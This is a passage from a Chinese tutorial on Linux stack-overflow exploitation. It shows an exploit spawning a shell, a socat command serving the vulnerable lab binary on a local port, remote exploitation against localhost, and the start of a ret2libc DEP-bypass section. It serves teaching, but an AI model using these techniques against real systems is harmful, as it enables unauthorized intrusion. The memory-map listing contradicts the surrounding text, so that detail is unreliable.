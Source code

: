 ```

p.interactive()  #开启交互shell

```

执行exp：

```
$ python exp1.py 
[+] Started program './level1'
[*] Switching to interactive mode
$ whoami
mzheng

```

接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：

```
socat TCP4-LISTEN:10001,fork EXEC:./level1

```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。

因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！

```
python exp1.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mzheng) gid=1000(mzheng) groups=1000(mzheng),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)

```

0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护
============================================

* * *

现在我们把DEP打开，依然关闭stack protector和ASLR。编译方法如下：

```
gcc -fno-stack-protector -o level2 level2.c

```

这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过`sudo cat /proc/[pid]/maps`查看，你会发现level1的stack是rwx的，但是level2的stack却是rw的。

```
level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]

```
